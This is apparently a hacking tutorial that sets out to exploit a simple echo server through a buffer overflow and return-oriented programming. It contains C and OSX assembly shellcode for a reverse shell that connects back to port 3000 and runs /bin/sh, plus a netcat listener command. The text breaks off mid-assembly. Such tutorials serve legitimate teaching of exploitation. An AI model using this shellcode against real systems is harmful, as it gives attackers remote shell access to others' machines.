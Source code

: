 
See the bug? Good! Does it look like the kind of mistake you've made before? Maybe, maybe not... but let's pwn it. 

The plan of attack
------------------

This server echos the first line you send to it, then closes the connection. However, there's a run-of-the-mill buffer overflow.

So what can we overwrite with our data? The thing of primary interest here is `_recvBytes`. We can manipulate that to overwrite data at any address we choose relative to `_recvBuffer`.

Traditionally, we would stick our shell code into `_recvBuffer`, then write over a return address on the stack in order to execute it. But any modern system will make the stack and heap both non-executable. The trick here is to use [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming).

Writing the shell code
----------------------

First, let's sketch out our shell code in C. The goal here is to be very minimal for a few reasons: We want to reduce the effort required to translate this to a payload, we want to minimize the chances of newlines occurring in the payload (which could be problematic), and we want to make sure our payload is small enough to fit onto the stack.

```
int s = socket(AF_INET, SOCK_STREAM, 0);
sockaddr_in address;
address.sin_family = AF_INET;
inet_pton(AF_INET, "127.0.0.1", &address.sin_addr.s_addr);
address.sin_port = htons(3000);
connect(s, (sockaddr*)&address, sizeof(sockaddr_in));
dup2(s, 2);
dup2(s, 1);
dup2(s, 0);
execve("/bin/sh", nullptr, nullptr);
```

When executed, this will connect to us on port 3000 with a shell. We can listen for it by simply using netcat: `nc -l 3000`. Then we can use it just like we would a terminal (almost).

The next step... assembly! This in my opinion is the fun part, but can also be tricky if you've never done anything in assembly before.

Here's an assembly translation for OSX:

```
.text
.globl _main

_main:
    mov $0x2000061, %rax          # socket
    xor %rdx, %rdx                # 0 (arg 3)
    mov $2, %rdi                  # AF_INET (arg 1)
    mov $1, %rsi                  # SOCK_STREAM (arg 2)
    syscall
    mov %eax, %edi                # s

    push %rdx
    mov $0x0100007fb80b0200, %rax # ip, port, AF_INET
    push %rax

    mov $0x2000062, %rax          # connect
    mov %rsp, %rsi                # address
    mov $16, %dl                  # 16
    syscall

    mov $3, %rsi
```